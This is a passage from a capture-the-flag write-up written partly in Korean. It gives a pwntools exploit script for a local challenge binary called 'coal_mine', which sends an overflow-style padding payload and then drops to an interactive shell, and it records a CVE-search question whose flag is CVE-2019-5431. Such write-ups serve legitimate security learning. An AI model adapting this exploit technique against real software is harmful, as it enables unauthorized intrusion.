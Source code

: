 ```python
from pwn import *

#context.log_level = 'debug'
e = ELF('./coal_mine')
p = process('./coal_mine')

p.recvuntil('GOAL(')
magic = int(p.recv(10),16)
log.info('treasure : ' + hex(magic))

p.sendlineafter(': ','A'*16 + p32(26))
p.sendlineafter(':','+')
for i in range(24):
    p.sendlineafter(':','+')
p.sendlineafter(':',str(magic))
p.interactive()
```

**FLAG : `??????`**

<br />

## Q10

시작하자마자 2분만에 푼 문제인데 구글링 검색 문제였다. 취약점 발생한 CVE 찾으면 된다. IOS에서 뭐 보안결함 발생했는데 제대로 보완 안해서 다시 터졌다고  해서 그거 연관된 CVE랑 검색했는데 나왔다. 

![](https://user-images.githubusercontent.com/32904385/65372643-b4a9f180-dcad-11e9-9636-1c6efa763e1f.png)

**FLAG : `CVE-2019-5431`**